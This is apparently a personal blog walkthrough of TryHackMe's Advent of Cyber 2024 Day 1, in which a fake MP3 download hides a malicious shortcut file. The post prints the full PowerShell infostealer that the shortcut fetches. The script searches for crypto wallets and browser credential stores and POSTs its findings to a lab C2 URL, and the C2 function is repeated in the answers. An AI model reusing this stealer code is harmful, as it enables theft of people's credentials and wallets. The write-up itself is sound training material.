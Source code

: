 ```yaml
---
title: Try Hack Me Advent of Cyber 2024 - Day 1
date: 2024-12-15
categories: [opsec, writeups]
tags: [opsec, purple]      # TAG names should always be lowercase
---
```


# Advent of Cyber 2024 Day 1








## Challenge info:




This is the day 1 challenge for the advent of a cyber event that was held this past holiday season that I missed. These challenges are easy and digestible targeted towards beginners. I am mainly walking through them for some quick learning and brushing up on some skills, as well I want to find the keycards for the harder side quest challenges. This challenge focuses on a OPSEC challenge that is focused on a youtube to mp3 style site.












## Walkthrough steps:




![alt text](../assets/imgs/aocday1/image-12.png)




The first thing I did on this site was try to upload a random youtube video to the site and download it as a `mp3`.


![alt text](../assets/imgs/aocday1/image-14.png)


Next we can download the file. This results in a zip folder so let's check it out...


![alt text](../assets/imgs/aocday1/image-15.png)




After extracting the contents we are greeted to 2 files `song.mp3` and `somg.mp3`, but weirdly one of them is executable...


![alt text](../assets/imgs/aocday1/image-16.png)


When we inspect the file types we can find something concerning...


![alt text](../assets/imgs/aocday1/image-17.png)


`somg.mp3` is a windows shortcut linker script. Lets check it out with `exiftool`.


![alt text](../assets/imgs/aocday1/image-18.png)




At the bottom of the output we can see a powershell command.


![alt text](../assets/imgs/aocday1/image-19.png)


Lets checkout that github file download. By following the link we can find the following code.




```
function Print-AsciiArt {
   Write-Host "  ____     _       ___  _____    ___    _   _ "
   Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |" 
   Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
   Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
   Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"


   Write-Host "         Created by the one and only M.M."
}


# Call the function to print the ASCII art
Print-AsciiArt


# Path for the info file
$infoFilePath = "stolen_info.txt"


# Function to search for wallet files
function Search-ForWallets {
   $walletPaths = @(
       "$env:USERPROFILE\.bitcoin\wallet.dat",
       "$env:USERPROFILE\.ethereum\keystore\*",
       "$env:USERPROFILE\.monero\wallet",
       "$env:USERPROFILE\.dogecoin\wallet.dat"
   )
   Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
   foreach ($path in $walletPaths) {
       if (Test-Path $path) {
           Add-Content -Path $infoFilePath -Value "Found wallet: $path"
       }
   }
}


# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
   $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"


   Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
   if (Test-Path $chromePath) {
       Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
   }
   if (Test-Path $firefoxPath) {
       Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
   }
}


# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
   $c2Url = "http://papash3ll.thm/data"
   $data = Get-Content -Path $infoFilePath -Raw


   # Using Invoke-WebRequest to send data to the C2 server
   Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}


# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server


```


This looks to be some kind of infostealer and at the top we can see a pretty unique str "Created by the one and only M.M.". We can search for this string on github to see if we get any hits. This would be bad for the malicious actor who wrote this script.


![alt text](../assets/imgs/aocday1/image-22.png)


We can see a few different results (I assume some are writeups or reposts as this challenge is old now.) The one that we want is at the bottom of the page so let's check it out.


![alt text](../assets/imgs/aocday1/image-23.png)


If we scroll down further we can see the same script that we downloaded.


![alt text](../assets/imgs/aocday1/image-24.png)


If we navigate to this user's github we can find the following.


![alt text](../assets/imgs/aocday1/image-25.png)




We should now have enough info to answer the following questions.


## Questions and Flags:


* Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?


   * ![alt text](../assets/imgs/aocday1/image-26.png)


* The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?


   * We can find this in the stealer script.
   ```
       # Function to send the stolen info to a C2 server
       function Send-InfoToC2Server {
           $c2Url = "http://papash3ll.thm/data"
           $data = Get-Content -Path $infoFilePath -Raw


           # Using Invoke-WebRequest to send data to the C2 server
           Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
       }
   ```
   * "http://papash3ll.thm/data"


* Who is M.M? Maybe his Github profile page would provide clues?
   * We can gain this information from that github profile we found while doing some basic opsec.
   ![alt text](../assets/imgs/aocday1/image-25.png)


* What is the number of commits on the GitHub repo where the issue was raised?


   * We can find this by going back to the issue where `mayor malware` commented and then clicking the repo. Then we can view the commits of the repo.


   ![alt text](../assets/imgs/aocday1/image-27.png)




* What's with all these GitHub repos? Could they hide something else?


   * This hint at the bottom caught my eye as I am hunting for the keys to do the harder side quest challenges but I will save the keycard hunting for the side quest writeups.







































